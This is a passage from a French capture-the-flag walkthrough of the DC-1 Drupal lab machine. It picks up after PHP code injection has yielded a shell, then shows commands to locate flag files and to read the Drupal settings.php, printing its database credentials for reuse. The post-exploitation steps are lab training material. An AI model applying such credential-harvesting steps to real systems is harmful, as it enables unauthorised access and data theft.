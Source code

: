 On retrouve alors enfin notre code PHP interprété dans la page du site.

## Des flags à la pelle

Une fois un shell récupéré sur la machine, on trouve un premier flag à la racine du site :

```console
www-data@DC-1:/var/www$ cat flag1.txt 
Every good CMS needs a config file - and so do you.
```

Vu que les flags ont visiblement un format particulier, allons chercher les autres :

```console
www-data@DC-1:/var/www$ find / -name "flag*.txt" 2> /dev/null 
/home/flag4/flag4.txt
/var/www/flag1.txt
www-data@DC-1:/var/www$ cat /home/flag4/flag4.txt
Can you use this same method to find or access the flag in root?

Probably. But perhaps it's not that easy.  Or maybe it is?
```

Tiens au fait, où se trouve le second flag ?

```console
www-data@DC-1:/var/www$ grep -r flag2 .
./sites/default/settings.php: * flag2
```

On en profite pour chopper les identifiants pour la base de données :

```php
<?php

/**
 *
 * flag2
 * Brute force and dictionary attacks aren't the
 * only ways to gain access (and you WILL need access).
 * What can you do with these credentials?
 *
 */

$databases = array (
  'default' =>
  array (
    'default' =>
    array (
      'database' => 'drupaldb',
      'username' => 'dbuser',
      'password' => 'R0ck3t',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);
```
